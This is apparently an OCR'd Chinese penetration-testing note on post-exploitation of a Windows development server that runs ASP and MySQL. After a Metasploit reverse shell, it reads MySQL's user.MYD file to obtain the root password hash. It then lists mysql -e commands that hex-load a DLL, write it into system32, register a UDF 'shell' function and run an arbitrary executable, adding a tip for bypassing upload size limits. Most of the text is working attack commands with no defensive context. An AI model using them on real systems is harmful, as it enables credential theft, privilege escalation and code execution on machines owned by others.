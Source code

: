 IP .3  
![](media/ded2f1377655e8467db234c432e8a51f.jpg)

为一台开发机。目标仅支持 asp，无其他脚本支持。但是服务器中安装有 mysql，php 等。并且无 asp to mysql Device Drive IIS配置中也并不支持 php。msf 反弹后，继续搜集情报。

`type C:\MySQL\MySQL Server 5.0\data\mysql\user.MYD`

得到 root hash

在实际情况中，交互的shell下运行 `mysql -uroot -pxxx` 无法继续交互，需要参数 e 解决这个问题。
```bash
mysql -uroot -pxxxxxxxx mysql -e "create table a (cmd LONGBLOB);" 
mysql -uroot -pxxxxxxxx mysql -e "insert into a (cmd) values (hex(load_file('C:\\xxxx\\xxxx.dll')));"
mysql -uroot -pxxxxxxxx mysql -e "SELECT unhex(cmd) FROM a INTO DUMPFILE
 'c:\\windows\\system32\\xxxx.dll';"
mysql -uroot -pxxxxxxxx mysql -e "CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'" 
mysql -uroot -pxxxxxxxx mysql -e "select shell('cmd','C:\\xxxx\\xxx\\xxxxx.exe');"
```
![](media/0778524b132d34c4e9ac2bdeb4f5ff26.jpg)

**如果限制上传大小同样可以hex解决上传大小问题。**
